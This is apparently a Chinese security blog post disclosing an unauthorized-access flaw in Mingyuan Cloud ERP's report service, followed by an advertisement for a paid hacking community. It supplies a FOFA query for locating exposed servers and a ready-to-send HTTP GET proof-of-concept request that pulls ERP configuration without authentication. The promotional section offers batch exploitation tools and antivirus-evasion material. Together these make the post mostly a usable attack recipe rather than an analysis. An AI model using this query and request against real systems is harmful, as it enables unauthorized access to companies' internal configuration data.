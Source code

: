 #  明源云erp报表 geterpconfig 未授权访问漏洞   
原创 CatalyzeSec  CatalyzeSec   2024-10-18 20:30  
  
FOFA  
```
body="报表服务已正常运行"
```  
# 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ynfcF4apkSh5ppBLDysjASYFGTClZ9897yxicVAvvfQPzLl3okGVvey55oZf0USR1SB1LGUa1VkTBg/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ynfcF4apkSh5ppBLDysjASYgic8NgBlmrTy4Isn9iaSxR5xo1Wgh2TSbSjiaeSibNaQibEVLpa6tykczBQ/640?wx_fmt=other&from=appmsg "")  
  
POC  
```
GET /service/Mysoft.Report.Web.Service.Base/GetErpConfig.aspx?erpKey=erp60 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Connection: close
```  
  
**nuclei运行结果**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ynfcF4apkSh5ppBLDysjASYSWic9TCUiaeVLRVt19Fx3oqJBeyPqm1LI4BqtuoVVzAEic80w6mjs3g0A/640?wx_fmt=other&from=appmsg "")  
  
**nuclei-POC已上传到知识星球**  
  
****  
高质量安全知识星球社区，致力于漏洞挖掘，渗透技巧，安全资料，星球承诺会持续更新0/1/NDay及对应的批量利用工具，团队内部漏洞库，内外网攻防技巧，你所需要的各类安全工具和资料以及团队师傅们最新的学习研究成果。分享行业内最新动态，解答交流各类技术问题。  
涉及方向包括Web渗透、免杀绕过、红蓝攻防、代码审计、应急响应、安全培训、CTF、小白入门、职业规划和疑难解答。**CatalyzeSec**  
，安全技术水平的催化者，星球针对成员的技术问题，快速提供思考方向及解决方案，并为星友提供多种方向的学习资料、安全工具、POC&EXP以及各种学习笔记等，以引导者和催化剂的方式助力安全技术水平的提升。  
我们是一个快速成长的team，团队的发展方向与每一位星友的学习方向密切相关，加入我们，一起成为更好的自己！  
PS：随着星球内知识的积累，人员的增加，  
星球价格也会随之增加，前一百位加入我们的师傅可享受99元朋友价！  
  
**团队内部独家知识库**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ynfcF4apkSh5ppBLDysjASY4bGd9cbj52kq0w6YER8gChNwGp51qqNvxbu098QXt7RRZyzYJ6cSRQ/640?wx_fmt=other&from=appmsg "")  
  
**微信群专属推送机器人**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ynfcF4apkSh5ppBLDysjASYh8GdckIwNlIKwCSgddFQtfQBPicSputMhyaxSeTC5v6aibWldiblSqsAA/640?wx_fmt=other&from=appmsg "")  
  
****  
